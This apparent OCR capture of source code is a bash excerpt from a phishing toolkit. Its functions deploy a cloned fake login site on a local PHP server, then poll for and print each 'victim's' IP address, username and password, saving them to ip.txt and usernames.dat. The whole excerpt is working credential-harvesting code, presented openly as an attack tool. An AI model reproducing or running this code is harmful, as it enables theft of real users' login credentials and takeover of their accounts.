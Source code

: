 ## Setup website and start php server
HOST='127.0.0.1'
PORT='8080'

setup_site() {
	echo -e "\n${RED}[${WHITE}-${RED}]${BLUE} Setting up server..."${WHITE}
	cp -rf .sites/"$website"/* .server/www
	cp -f .sites/ip.php .server/www/
	echo -ne "\n${RED}[${WHITE}-${RED}]${BLUE} Starting PHP server..."${WHITE}
	cd .server/www && php -S "$HOST":"$PORT" > /dev/null 2>&1 & 
}

## Get IP address
capture_ip() {
	IP=$(grep -a 'IP:' .server/www/ip.txt | cut -d " " -f2 | tr -d '\r')
	IFS=$'\n'
	echo -e "\n${RED}[${WHITE}-${RED}]${GREEN} Victim's IP : ${BLUE}$IP"
	echo -ne "\n${RED}[${WHITE}-${RED}]${BLUE} Saved in : ${ORANGE}ip.txt"
	cat .server/www/ip.txt >> ip.txt
}

## Get credentials
capture_creds() {
	ACCOUNT=$(grep -o 'Username:.*' .server/www/usernames.txt | cut -d " " -f2)
	PASSWORD=$(grep -o 'Pass:.*' .server/www/usernames.txt | cut -d ":" -f2)
	IFS=$'\n'
	echo -e "\n${RED}[${WHITE}-${RED}]${GREEN} Account : ${BLUE}$ACCOUNT"
	echo -e "\n${RED}[${WHITE}-${RED}]${GREEN} Password : ${BLUE}$PASSWORD"
	echo -e "\n${RED}[${WHITE}-${RED}]${BLUE} Saved in : ${ORANGE}usernames.dat"
	cat .server/www/usernames.txt >> usernames.dat
	echo -ne "\n${RED}[${WHITE}-${RED}]${ORANGE} Waiting for Next Login Info, ${BLUE}Ctrl + C ${ORANGE}to exit. "
}

## Print data
capture_data() {
	echo -ne "\n${RED}[${WHITE}-${RED}]${ORANGE} Waiting for Login Info, ${BLUE}Ctrl + C ${ORANGE}to exit..."
	while true; do
		if [[ -e ".server/www/ip.txt" ]]; then
			echo -e "\n\n${RED}[${WHITE}-${RED}]${GREEN} Victim IP Found !"
			capture_ip
			rm -rf .server/www/ip.txt
		fi
		sleep 0.75
		if [[ -e ".server/www/usernames.txt" ]]; then
			echo -e "\n\n${RED}[${WHITE}-${RED}]${GREEN} Login info Found !!"
			capture_creds
			rm -rf .server/www/usernames.txt
		fi
		sleep 0.75
	done
}

